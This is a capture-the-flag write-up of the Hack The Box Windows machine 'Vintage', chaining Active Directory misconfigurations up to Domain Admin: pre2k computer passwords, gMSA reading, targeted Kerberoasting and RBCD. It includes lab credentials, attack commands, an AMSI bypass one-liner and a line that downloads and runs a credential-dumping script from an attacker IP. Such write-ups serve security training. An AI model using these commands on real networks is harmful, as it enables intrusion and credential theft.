

## Vintage

### Overview

**Vintage** is a hard-difficulty Windows machine built around an assumed-breach scenario, where we begin with a set of low-privileged domain user credentials.

The box models an Active Directory environment with no ADCS installed and NTLM authentication disabled, so every authentication throughout the attack has to go through Kerberos.

The path to Domain Admin chains together a series of classic AD misconfigurations: a pre-created (pre2k) computer account that still carries its default password, a Group Managed Service
Account (gMSA) whose password that computer can read, abusable group write permissions that lead into targeted Kerberoasting, credentials recovered from Windows Credential Manager, and
finally Resource-Based Constrained Delegation (RBCD) to impersonate a Domain Admin.

### Pwning

Here's the nmap scan:

```bash
# Nmap 7.94SVN scan initiated Tue Oct 20 21:33:25 2026 as: nmap -vvv -p 53,88,135,389,445,464,593,636,3268,3269,5985,9389,49664,49668,49676,49687,50252,55686,59611 -4 -A -oN 10.129.231.205.scan -Pn 10.129.231.205
Nmap scan report for dc01.vintage.htb (10.129.231.205)
Host is up, received user-set (0.20s latency).
Scanned at 2026-10-20 21:33:26 WAT for 105s

PORT      STATE SERVICE       REASON  VERSION
53/tcp    open  domain        syn-ack Simple DNS Plus
88/tcp    open  kerberos-sec  syn-ack Microsoft Windows Kerberos (server time: 2026-10-20 20:33:04Z)
135/tcp   open  msrpc         syn-ack Microsoft Windows RPC
389/tcp   open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: vintage.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack
464/tcp   open  kpasswd5?     syn-ack
593/tcp   open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack
3268/tcp  open  ldap          syn-ack Microsoft Windows Active Directory LDAP (Domain: vintage.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack
5985/tcp  open  http          syn-ack Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        syn-ack .NET Message Framing
49664/tcp open  msrpc         syn-ack Microsoft Windows RPC
49668/tcp open  msrpc         syn-ack Microsoft Windows RPC
49676/tcp open  ncacn_http    syn-ack Microsoft Windows RPC over HTTP 1.0
49687/tcp open  msrpc         syn-ack Microsoft Windows RPC
50252/tcp open  msrpc         syn-ack Microsoft Windows RPC
55686/tcp open  msrpc         syn-ack Microsoft Windows RPC
59611/tcp open  msrpc         syn-ack Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 22961/tcp): CLEAN (Timeout)
|   Check 2 (port 47864/tcp): CLEAN (Timeout)
|   Check 3 (port 17035/udp): CLEAN (Timeout)
|   Check 4 (port 56038/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-time: 
|   date: 2026-10-20T20:34:00
|_  start_date: N/A
|_clock-skew: -29s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

Read data files from: /usr/bin/../share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Oct 20 21:35:11 2026 -- 1 IP address  (1 host up) scanned in 105.99 seconds
```

With Kerberos (88), LDAP (389) and DNS (53) all exposed, it's clear we're dealing with an Active Directory Domain Controller.

I used `nxc` to resolve the host's `FQDN`.



```bash
SMB         10.129.231.205  445    dc01             [*]  x64 (name:dc01) (domain:vintage.htb) (signing:True) (SMBv1:False) (NTLM:False) (DC:True)
```

A few key things stand out from this output:
- SMB signing is enabled
- SMBv1 is disabled
- NTLM authentication is disabled

The disabled NTLM is the important one: it means that for any authentication we attempt from here on, we're forced to use Kerberos.

Since this is an assumed-breach scenario, we're handed a valid domain user credential to start with.

```
P.Rosa:Rosaisbest123
```

Because everything has to go through Kerberos, the first thing I need is a `Ticket Granting Ticket (TGT)`. With a TGT cached, any service ticket we request later can be derived from it.

`nxc` can both generate a matching Kerberos realm configuration (`krb5.conf`) and request the ticket for us.


Enumerating the available shares turns up nothing useful.


Authenticating over `WinRM` also fails.


With the obvious paths closed off, I moved on to enumerating the domain with `rusthound-ce`.

```bash
mark@rwx:~/Desktop/Labs/HTB/Vintage$ nxc smb DC01.vintage.htb -u P.Rosa -p 'Rosaisbest123' -k --generate-krb5-file krb5.conf
SMB         DC01.vintage.htb 445    DC01             [*]  x64 (name:DC01) (domain:vintage.htb) (signing:True) (SMBv1:False) (NTLM:False) (DC:True)
SMB         DC01.vintage.htb 445    DC01             [+] krb5 conf saved to: krb5.conf
SMB         DC01.vintage.htb 445    DC01             [+] Run the following command to use the conf file: export KRB5_CONFIG=krb5.conf
SMB         DC01.vintage.htb 445    DC01             [+] vintage.htb\P.Rosa:Rosaisbest123 
mark@rwx:~/Desktop/Labs/HTB/Vintage$ cat krb5.conf 
[libdefaults]
    dns_lookup_kdc = false
    dns_lookup_realm = false
    default_realm = VINTAGE.HTB

[realms]
    VINTAGE.HTB = {
        kdc = dc01.vintage.htb
        admin_server = dc01.vintage.htb
        default_domain = vintage.htb
    }

[domain_realm]
    .vintage.htb = VINTAGE.HTB
    vintage.htb = VINTAGE.HTB
mark@rwx:~/Desktop/Labs/HTB/Vintage$ sudo mv krb5.conf /etc/
mark@rwx:~/Desktop/Labs/HTB/Vintage$ unset KRB5_CONFIG # i initially set it when i got the TGT
```


The resulting ZIP can then be uploaded into BloodHound for analysis.

Starting off with the analysis, there are two domain admins


```
Administrator
L.Bianchi_ADM
```

The Organizational Unit (OU) structure shows an unusual OU called `PRE-MIGRATION`


From the word `PRE-MIGRATION` it likely means that they're migrating machines into a (new) domain.

Admins often pre-create the computer accounts in AD before the physical/virtual machines are actually joined. This is called pre-creating a computer object.

The security relevant quirk of this is that:

>A freshly pre-created computer account that hasn't been joined yet typically has a default, predictable password equal to the computer's name in lowercase (the legacy "Pre-Windows 2000" default). Once the real machine joins, it resets this to a random machine password.
{: .prompt-tip }


I tested for pre2k


From the result, we see that the computer account `FS01$` has its default password set to the `samAccountName = FS01`

The computer *FS01.VINTAGE.HTB* is a member of the group DOMAIN *COMPUTERS@VINTAGE.HTB*.

*GMSA01$@VINTAGE.HTB* is a Group Managed Service Account. The group DOMAIN *COMPUTERS@VINTAGE.HTB* can retrieve the password for the GMSA *GMSA01$@VINTAGE.HTB*.


We can use `nxc` to retrieve the password for the computer account `GMSA01`


```
gMSA01$:f44e1eceaa7a24c32e8a54d62d032f96
```

The user *GMSA01$@VINTAGE.HTB* has generic write access to the group *SERVICEMANAGERS@VINTAGE.HTB*.


We can add the user `P.Rosa` to this domain group.


```bash
mark@rwx:~/Desktop/Labs/HTB/Vintage$ getTGT.py vintage.htb/'gmsa01$' -hashes :f44e1eceaa7a24c32e8a54d62d032f96 -dc-ip 10.129.231.205
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Saving ticket in gmsa01$.ccachemark@rwx:~/Desktop/Labs/HTB/Vintage$ bloodyAD --host DC01.vintage.htb -d vintage.htb -k add groupMember SERVICEMANAGERS p.rosa
[+] p.rosa added to SERVICEMANAGERS
mark@rwx:~/Desktop/Labs/HTB/Vintage$
```

The members of *SERVICEMANAGERS* has *GenericAll* over 3 domain users.


We can perform `targeted Kerberoasting`, this works by temporarily adding an `SPN` on the property of a user and then kerberoasting.

This is preferred over password change because it allows for potential password spray if we happen to crack the hash.

One thing to note here is that the user `svc_sql` is disabled, as shown on Bloodhound.

<figure>
  

  <figcaption style="text-align:center;">
    Bloodhound
  </figcaption>
</figure>

So we have to enable it, this can easily be done with `bloodyAD`.


Now we perform the targeted kerberoasting attack:


```bash
nxc ldap DC01.vintage.htb -u p.rosa -p Rosaisbest123 -k --kerberoasting output.txt --targeted-kerberoast svc_sql svc_ark svc_ldap
```

Only one hash cracked.

I checked what each user has control over but didn't see any so I went on to spray the password over all the domain users.


The credential works over `winrm`


Checking the list of active services shows that Windows Defender is running


The user `c.neri` has a credential stored in Windows Credential Manager


We can easily dump it using [Invoke-WCMDump](https://github.com/peewpw/Invoke-WCMDump) but we'd need to bypass the Defender running.

I used this AMSI bypass to achieve that and on attempting to dump the credential it failed, this is because the `WinRM` shell isn’t an interactive session.


```
evil-winrm-py PS C:\users\c.neri> [Ref].Assembly.GetType('System.Management.Automation.Amsi'+'Utils').GetField('amsiInit'+'Failed','NonPublic,Static').SetValue($null,!$false)
evil-winrm-py PS C:\users\c.neri> (new-object net.webclient).downloadstring('http://10.10.15.180/Invoke-WCMDump.ps1') | iex
evil-winrm-py PS C:\users\c.neri> Invoke-WCMDump
Exception calling "LoadAll" with "0" argument(s): "Failed to enumerate credentials"
evil-winrm-py PS C:\users\c.neri>
```

I made use of `RunasCS` to get an interactive reverse shell 


Since we have an interactive shell, we can dump the credentials.


```
SHELL> Invoke-WCMDump


Username         : vintage\c.neri_adm
Password         : Uncr4ck4bl3P4ssW0rd0312
Target           : admin_acc
Description      : 
LastWriteTime    : 6/7/2024 5:08:23 PM
LastWriteTimeUtc : 6/7/2024 3:08:23 PM
Type             : Generic
PersistenceType  : Enterprise
```

I password sprayed the credential over all the users and got just a single hit


So the user `c.neri_adm` is among the `DELEGATEDADMINS` group and members of the group are `AllowedToAct` on behalf of any user to the domain controller.


This means we can perform Resource-Based Constrained Delegation (RBCD).


RBCD abuse chains two Kerberos extensions:

1. *S4U2Self* - the account you control asks the KDC for a ticket to itself, impersonating an arbitrary user (e.g. Administrator).
2. *S4U2Proxy* - it then uses that ticket to request a service ticket to the target computer, which trusts your account via msDS-AllowedToActOnBehalfOfOtherIdentity.

The usual requirement is that the account performing the delegation has a Service Principal Name (SPN).

A default configuration for an AD domain is that the `machineAccountQuota` is set to `10` which means that computer accounts can be created.

A computer account has an `SPN` by default `HOST/, RestrictedKrbHost/, etc.`.

However, this domain was configured to not allow creation of computer accounts.


With computer-account creation blocked we need an account that already has an SPN, in this case we know `gMSA01` and `FS01` credential.

In this case, `FS01$` works so we add this account to the `DELEGATEDADMINS` group. And this works because we have `GenericWrite` over the group object.


After this, we can get a Service Ticket for `l.bianchi_adm` who is a `Domain Admin` 

Trying to immediately `psexec` fails and of course, that's expected because windows defender is enabled.


```bash
nxc smb dc01.vintage.htb -u c.neri_adm -p 'Uncr4ck4bl3P4ssW0rd0312' -k --generate-tgt c.neri_adm.ccache
export KRB5CCNAME=c.neri_adm.ccache
nxc smb dc01.vintage.htb -u 'fs01$' -p 'fs01' -k --generate-tgt fs01.ccache
export KRB5CCNAME=fs01.ccache
getST.py -spn 'cifs/dc01.vintage.htb' -impersonate 'l.bianchi_adm' 'vintage.htb/fs01$'@DC01.vintage.htb -k -no-pass
```

We can simply dump the credentials using `secretsdump`


Now we can use `nxc` to execute `powershell` command and get a reverse shell


That's all! ありがとうございます！😊
